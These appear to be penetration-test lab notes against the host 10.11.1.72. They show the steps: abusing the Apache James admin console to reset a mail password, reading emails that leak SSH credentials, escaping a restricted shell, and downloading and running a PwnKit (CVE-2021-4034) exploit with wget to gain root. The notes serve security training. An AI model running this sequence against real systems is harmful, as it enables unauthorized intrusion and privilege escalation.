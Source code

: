 # Summary
# Location
- IP Address: 10.11.1.72
## System Information
- OS: Ubuntu
- Kernal:
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri: ssh
- username: ryuu
- password: QUHqhUPRKXMo4m7k

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th


Apache/2.2.20


nc 10.11.1.72 4555
Existing accounts 6
user: marcus
user: john
user: mailadmin
user: jenny
user: ryuu
user: joe45


setpassword mailadmin mailadmin
❯ telnet $ip 110
Trying 10.11.1.72...
Connected to 10.11.1.72.
Escape character is '^]'.
+OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
user mailadmin
+OK
pass mailadmin
+OK Welcome mailadmin
list
+OK 0 0
.
bye
-ERR
quit
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.


ryuu find 2 mails

RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <19262980.2.1420734423735.JavaMail.root@pop3>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ryuu@localhost
Received: from localhost ([127.0.0.1])
          by pop3 (JAMES SMTP Server 2.3.2) with SMTP ID 874
          for <ryuu@localhost>;
          Thu, 8 Jan 2015 11:27:01 -0500 (EST)
Date: Thu, 8 Jan 2015 11:27:01 -0500 (EST)
From: mailadmin@localhost
Dear Ryuu,

Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any command you need to your path.

username: ryuu
password: QUHqhUPRKXMo4m7k

Kind regards,

Matt
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <32288226.1.1420734296374.JavaMail.root@pop3>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ryuu@localhost
Received: from localhost ([127.0.0.1])
          by pop3 (JAMES SMTP Server 2.3.2) with SMTP ID 59
          for <ryuu@localhost>;
          Thu, 8 Jan 2015 11:24:53 -0500 (EST)
Date: Thu, 8 Jan 2015 11:24:53 -0500 (EST)
From: mailadmin@localhost
Dear Ryuu,

Welcome to AAC and the IT team! I am delighted you are joining us as a junior analyst. Your role is critical in fulfilling the mission of our department and AAC.
The enclosed information is designed to serve as an introduction to IT and provide resources that will help you make a smooth transition into your new role.
The IT team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at AAC.

Kind regards,

Matt



BASH_CMDS[a]=/bin/sh;a  注：把/bin/bash给a变量
export PATH=$PATH:/bin/    注：将/bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   注：将/usr/bin作为PATH环境变量导出


run linpeas

find cve-2021-4034




# Exploitation
## Exploit 1
- Title: 
- CVE: 2021-4034
- EBD-ID: 
- Link: https://github.com/c3c/CVE-2021-4034

uname -a find  i686

wget https://github.com/c3c/CVE-2021-4034/releases/download/0.2/cve-2021-4034_i686

get the root

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
